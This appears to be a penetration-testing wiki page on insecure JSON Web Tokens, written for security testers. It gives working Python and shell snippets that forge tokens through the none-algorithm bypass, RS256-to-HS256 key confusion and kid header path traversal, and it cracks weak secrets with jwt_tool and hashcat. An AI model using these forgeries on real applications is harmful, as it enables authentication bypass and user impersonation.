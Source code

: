 ```yaml
---
authors: ShutdownRepo
---
```


# Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

> [!TIP]
> Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.
> 
> ```bash
> echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
> ```

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

> [!WARNING]
> The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).

The last part is interesting because, if the parameter is vulnerable to [directory traversal](directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

> [!TIP]
> "[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.

> [!TIP]
> > There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
> >
> > _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_
> 
> The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`

> [!TIP]
> In some cases, using the trick above will not work, as the file is listed with a size of 0, and some apps could check that the signature file is not empty.
> 
> ```python
> >>> import os
> >>> os.path.getsize("/proc/sys/kernel/ftrace_enabled")
> 0
> ```
> 
> Alternatively, other file could be used:
> 
> * some have a content that rarely changes (e.g. old configuration files like`/etc/host.conf`, `/etc/xattr.conf`, ...)
> * some have a predictable content (e.g. `/etc/hostname`, JS files in `/var/www/html`, ...)
> * some return an empty string (e.g. `/dev/null`) effectively allowing to bypass the signature validation, meaning an empty key could be used for signature.


```python
import jwt, os
payload = {'key1':'value1', 'key2':'value2'}
with open("path/to/file", 'r') as file:
    data = file.read()
token = jwt.encode(payload, key=data, algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```


> [!TIP]
> If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.
> 
> The same secret value is to be used on [jwt.io](https://jwt.io/).

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt_tool) (Python3) can be used for this purpose.


```bash
# crack the secret using dictionnary attack
jwt_tool.py -v -C -d $wordlist_file "$JWT_value"

# use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
```


JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../ad/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## Resources

[https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)

[https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

[https://blog.imaginea.com/stateless-authentication-using-jwt-2/](https://blog.imaginea.com/stateless-authentication-using-jwt-2/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)

[https://jwt.io/](https://jwt.io/)

[https://portswigger.net/web-security/jwt](https://portswigger.net/web-security/jwt)

[https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6](https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6)

